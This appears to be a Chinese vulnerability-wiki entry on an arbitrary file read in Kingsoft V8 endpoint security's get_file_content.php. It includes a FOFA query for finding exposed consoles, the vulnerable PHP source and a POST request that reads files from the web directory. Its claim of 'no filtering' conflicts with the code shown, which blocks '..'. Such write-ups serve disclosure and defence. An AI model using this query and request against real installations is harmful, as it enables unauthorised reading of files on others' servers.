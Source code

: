 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630284811305-903a9d36-0fe4-46b2-bc56-92f81c4c433c.png)

存在漏洞的文件 **/Console/receive_file/get_file_content.php**

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

<a-checkbox checked>由于不能出现 .. ，所以只能读取web目录下的文件</a-checkbox></br>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```

![img](../../../.vuepress/public/img/1630292700432-afde937f-bbe7-4493-a1e5-0cbb50dae5e7.png)



## 